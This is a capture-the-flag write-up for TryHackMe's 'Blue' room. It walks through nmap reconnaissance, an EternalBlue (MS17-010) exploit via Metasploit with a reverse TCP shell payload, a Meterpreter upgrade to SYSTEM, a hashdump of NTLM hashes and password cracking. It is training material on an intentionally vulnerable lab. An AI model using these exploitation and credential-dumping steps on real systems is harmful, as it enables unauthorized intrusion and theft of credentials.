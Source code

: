 
# **Introduction**

This writeup covers the TryHackMe room [Blue](https://tryhackme.com/room/blue), which focuses on exploiting a critical vulnerability known as **MS17-010 (EternalBlue)** in a Windows 7 machine. The room is designed for beginners to learn how the EternalBlue exploit works, how to identify it using Nmap, and how to leverage Metasploit to gain access.

# Recon :

the machine does not respond to ping (ICMP) so we will use the `-Pn` flag to disable Ping
````bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:24 EDT
Nmap scan report for 10.10.242.215
Host is up (0.60s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 62.72 seconds

````

now let s do a more profond scan 
````bash 
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn -sV -sC -p 135,139,445,3389,49152,49153,49154,49158,49159 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:31 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:36 remaining)
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:38 remaining)
Nmap scan report for 10.10.242.215
Host is up (0.74s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2025-07-14T14:32:27+00:00; +3s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-14T14:32:12+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-13T14:10:31
|_Not valid after:  2026-01-12T14:10:31
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-14T09:32:12-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-14T14:32:12
|_  start_date: 2025-07-14T14:10:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:16:4f:66:bb:25 (unknown)
|_clock-skew: mean: 1h00m02s, deviation: 2h14m10s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.77 seconds

````

This Nmap scan provides **a lot of useful intel** so let s break it down :
- **Host OS:** Windows 7 Professional SP1
- **Hostname:** Jon-PC
- **Workgroup:** WORKGROUP
- **RDP (3389):** Enabled
- **SMB (139/445):** Open with dangerous settings (signing disabled) 
- **Multiple RPC ports** open (135 + 4915x range)
- **No ping (ICMP) required `-Pn` used**

#### Most important info :
```
smb-security-mode: message_signing: disabled (dangerous, but default)
````

after a quick internet search i found that  it  allows **Man-in-the-Middle (MitM)** attacks and **pass-the-hash**.
- **Exploit possibilities:**
    - EternalBlue (MS17-010)
    - SMB Relay attacks
    - Null session enumeration
we will go with EternalBlue since it s this room is made for it


# Gain Access :

Let's launch Metasploit and look for eternal blue 
![screenshot](imgs/scan1.png)
we will choose the first one now let s ceck what options do we need to provide so we ccan run the exploit 
![screenshot](imgs/scan2.png)
the only required option is `RHOSTS` which should be the one provided with your machine and i ll have to change the `LHOST` which was an ip address that i got from a different room
you can change them by typing :

```bash
set RHOSTS <machine ip address>
set LHOST <your ip address>
```

when it comes to the payload the one that is in the image should work fine if you have a different one just type : 

````bash 
set payload windows/x64/shell/reverse_tcp
````

now everything is set let s run the exploit you can simpy do that buy typing 
`run` or `exploit` .
if everything worked fine you should get the meterpreter which looks like this 
![screenshot](imgs/scan3.png)
now  we ll try to escalate privileges .

# Escalation :

Let s start by backgrounding this session ( press CTRL+Z ) and try to upgrade our session. 
When you exploit a system, you might get a **basic shell** — but it’s very limited. Upgrading it to a **Meterpreter session** gives you **powerful post-exploitation features**. 
you can do this in an easy way  just background your session as we said then type :
```bash 
sessions -u < ur session number >
```
which will create a upgraded session after  that type 
```bash
*> sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.11.142.91:4444 -> 10.10.242.215:49237 (10.10.242.215)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.11.142.91:4433 -> 10.10.242.215:49250 (10.10.242.215)

```
to switch to the meterpreter session type `sessions -i 2` and VOILA you have a meterpreter 
you can do lots of stuff  like showing the systems info and seeing the running processes.
you can check [Metasploit cheat sheet](https://github.com/r4y-br/Cybersecurity-101/blob/main/Metasploit.md) to try learn the commands tthat you can run on the meterpreter .
![screenshot](imgs/scan4.png)

# Crack :
the room asks us to crack  the non default user's password  we can dump the hashes  by running :

````bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

````

now we will need to crack the passwords hash we  can either use john the ripper or use   [crackstation](https://crackstation.net/) which is more convinient .
![screenshot](imgs/scan5.png)

# Finding the flags :

 Just use the meterpreter for your advantage and make it do the hard work  for u :
 ```bash
meterpreter > search -f *flag*
Found 6 results...
==================

Path                                                             Size (bytes)  Modified (UTC)
----                                                             ------------  --------------
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk  482           2019-03-17 15:26:42 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk  848           2019-03-17 15:30:04 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk  2344          2019-03-17 15:32:52 -0400
c:\Users\Jon\Documents\flag3.txt                                 37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt                             34            2019-03-17 15:32:48 -0400
c:\flag1.txt                                                     24            2019-03-17 15:27:21 -0400


``` 


#  **Conclusion**
> 
> The _Blue_ room provided a great introduction to identifying and exploiting SMB vulnerabilities, specifically the infamous **MS17-010 (EternalBlue)** flaw affecting Windows 7. Through careful enumeration and the use of Metasploit, I was able to gain a reverse shell and access the target system.
> 
> This challenge highlights the importance of keeping systems up to date and demonstrates how a single unpatched vulnerability can lead to full system compromise. Overall, _Blue_ was a valuable learning experience that reinforced core penetration testing techniques such as service enumeration, vulnerability identification, and exploitation using Metasploit.

